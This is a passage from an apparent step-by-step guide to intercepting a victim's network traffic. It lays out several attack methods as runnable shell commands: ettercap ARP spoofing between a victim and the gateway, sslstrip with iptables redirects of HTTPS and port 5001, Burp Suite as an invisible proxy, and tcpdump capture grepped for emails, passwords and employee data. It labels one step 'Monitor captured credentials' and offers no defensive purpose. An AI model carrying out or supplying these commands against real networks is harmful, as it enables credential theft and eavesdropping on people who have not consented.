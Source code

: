 ### Setup
```bash
# Terminal 1 - Start ettercap for ARP spoofing
sudo ettercap -T -M arp:remote /[VICTIM_IP]// /[GATEWAY_IP]//

# Terminal 2 - Start sslstrip  
sudo sslstrip -l 8080 -w /tmp/sslstrip.log

# Terminal 3 - Redirect HTTPS traffic to sslstrip
sudo iptables -t nat -A PREROUTING -p tcp --destination-port 443 -j REDIRECT --to-port 8080
sudo iptables -t nat -A PREROUTING -p tcp --destination-port 5001 -j REDIRECT --to-port 8080

# Terminal 4 - Monitor captured credentials
tail -f /tmp/sslstrip.log
```

### Cleanup
```bash
sudo iptables -t nat -F
sudo pkill ettercap
sudo pkill sslstrip
```

## Method 4: Burp Suite (Always Works)

### Using Burp Suite Community
1. Download and install Burp Suite Community
2. Configure Burp to listen on all interfaces (0.0.0.0:8080)
3. Enable "Support invisible proxying"

```bash
# ARP spoof
sudo ettercap -T -M arp:remote /[VICTIM_IP]// /[GATEWAY_IP]//

# Redirect traffic to Burp
sudo iptables -t nat -A PREROUTING -p tcp --dport 443 -j REDIRECT --to-port 8080
sudo iptables -t nat -A PREROUTING -p tcp --dport 5001 -j REDIRECT --to-port 8080
```

## Method 5: TCPDump + Manual Analysis (Fallback)

If all proxies fail, capture and analyze manually:

```bash
# Start ARP spoofing
sudo ettercap -T -M arp:remote /[VICTIM_IP]// /[GATEWAY_IP]//

# Capture all HTTP traffic
sudo tcpdump -i [INTERFACE] -A -s 0 'host [VICTIM_IP] and tcp and port 5000' -w /tmp/capture.pcap

# Analyze in Wireshark or with strings
strings /tmp/capture.pcap | grep -E "(email|password|Employee)"
```
